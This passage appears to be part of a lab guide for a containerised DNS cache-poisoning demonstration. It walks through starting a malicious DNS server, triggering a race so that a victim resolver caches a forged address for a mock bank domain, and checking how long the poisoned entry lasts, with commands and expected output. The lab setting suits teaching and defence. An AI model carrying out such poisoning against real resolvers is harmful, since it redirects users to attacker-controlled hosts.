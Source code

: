 #### Step 3: Start Attack Server
```bash
# Terminal 1: Start malicious DNS server
docker exec -it attacker python3 attack.py

# Expected output:
# 🚀 Starting malicious DNS server...
# 📋 Attack Strategy:
#    1. Resolver forwards to BOTH proxy (slow) and attacker (fast)
#    2. Proxy has 500ms delay
#    3. Attacker responds immediately with poison IP
#    4. First response wins!
# ✅ DNS server started! Waiting for queries...
```

#### Step 4: Execute Attack (Trigger Race Condition)
```bash
# Terminal 2: Monitor in real-time
docker logs -f resolver &
docker logs -f proxy-dns &

# Terminal 3: Victim performs DNS query (triggers race)
time docker exec victim dig "@10.0.0.20" www.bank.lab

# Expected timing: ~10ms response (fast = poisoned)
# Expected result: www.bank.lab → 10.0.0.50
```

#### Step 5: Verify Cache Poisoning Success
```bash
# Test multiple queries to confirm cache poisoning
for i in {1..5}; do
  echo "Query $i:"
  docker exec victim dig "@10.0.0.20" www.bank.lab +short
  sleep 1
done

# Expected: All queries return 10.0.0.50 (poisoned IP)
# Timing: All responses ~5ms (from cache)
```

#### Step 6: Monitor Attack Logs
```bash
# Attacker terminal should show:
# [HH:MM:SS] 🎯 FAST RESPONSE: www.bank.lab -> 10.0.0.50 (from 10.0.0.20)

# Proxy logs should show:
# [DELAY] Adding 500ms delay for query from 10.0.0.20:XXXXX
# [FORWARD] Forwarding query to auth server 10.0.0.30:53
# [RESPONSE] Sending response back to 10.0.0.20:XXXXX
```

#### Step 7: Demonstrate Cache Persistence
```bash
# Show that poisoned cache persists for TTL duration
echo "Testing cache persistence (10-second TTL):"
for i in {1..12}; do
  echo "Second $i: $(docker exec victim dig "@10.0.0.20" www.bank.lab +short)"
  sleep 1
done

# Expected behavior:
# Seconds 1-10: Returns 10.0.0.50 (poisoned, from cache)
# Second 11+: May return legitimate IP if cache expires and no attack running
```
